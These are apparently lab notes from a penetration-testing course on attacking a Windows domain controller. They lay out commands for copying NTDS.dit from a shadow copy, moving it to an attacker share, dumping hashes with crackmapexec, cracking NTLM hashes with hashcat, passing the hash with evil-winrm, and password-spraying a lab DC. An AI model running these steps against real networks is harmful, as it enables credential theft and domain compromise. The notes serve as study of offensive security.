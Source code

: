## Copying NTDS.dit from the VSS

mkdir NTDS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

## Transferring NTDS.dit to Attack Host

cmd.exe /c move C:\NTDS\NTDS.dit \\$PWN_BOX$\CompData 

## A Faster Method: Using cme to Capture NTDS.dit

crackmapexec smb $TARGET -u bwilliamson -p P@55w0rd! --ntds

## Cracking Hashes & Gaining Credentials

sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

# Pass-the-Hash Considerations

What if we are unsuccessful in cracking a hash?

A PtH attack takes advantage of the NTLM authentication protocol to authenticate a user using a password hash. 

evil-winrm -i $TARGET  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"

# LAB

crackmapexec smb $TARGET

SMB         10.129.202.85   445    ILF-DC01         [*] Windows 10.0 Build 17763 x64 (name:ILF-DC01) (domain:ILF.local) (signing:True) (SMBv1:False)

John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager.

cat usernames.txt 
jmarston
johnmarston
john.marston
marston.john
cjohnson
caroljohnson
carol.johnson
johnson.carol

crackmapexec smb $TARGET -u usernames.txt -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.202.85   445    ILF-DC01         [+] ILF.local\jmarston:P@ssword! (Pwn3d!)

evil-winrm -i $TARGET -u jmarston -p 'P@ssword!'
